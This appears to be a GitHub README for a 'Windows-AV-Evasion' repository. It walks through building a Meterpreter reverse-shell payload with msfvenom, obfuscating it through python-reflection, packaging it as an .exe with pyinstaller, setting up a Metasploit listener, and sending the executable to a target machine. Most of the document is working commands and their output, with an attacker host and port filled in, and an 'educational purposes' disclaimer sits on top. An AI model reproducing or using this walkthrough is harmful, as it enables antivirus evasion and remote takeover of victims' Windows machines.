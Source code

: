# Windows-AV-Evasion
The easiest way to achieve a reverse shell bypassing Windows Defender 

<img width="324" height="324" alt="image" src="https://github.com/user-attachments/assets/18267b34-b490-4dec-b64b-f39866f96b88" />


> [!WARNING]  
> The entire repo and the information shown is only for educational and informational porpuses.

## Workflow
First, with `msfvenom` we make the payload as a `.py` file and using `python-reflection` in order to make the exploit already obfuscated. 

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py

```

Then we need to add the `ctypes` since it's needed by `python-reflection`
```shell
nano reload.py 
```
<img width="1086" height="119" alt="image" src="https://github.com/user-attachments/assets/52339303-b351-460f-ba66-131586371201" />


Now in order to generate a .exe file we can use pyinstaller from Windows or we can use pyinstaller within`wine` if we had it previously installer. 
 
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows: 
```powershell
pyinstaller -F hoax_shell.py --onefile
```

Once we have the .exe file, we run a meterpreter session either manually or with the next `.rc` file:

```shell
nano test.rc
```

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

```bash
msfconsole -r test.rc
```

Then we just send the `.exe` to the target machine and we can execute it either by using GUI (RDP) or using remote command execution.

<img width="1280" height="800" alt="image" src="https://github.com/user-attachments/assets/a1a195fd-e432-477e-b37c-0e72feb753bb" />


The script embed will start a meterpreter shell using meterpreter waiting for connections 

```shell
$ ./listiner.sh


[!] Missing parameters.


[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443

```
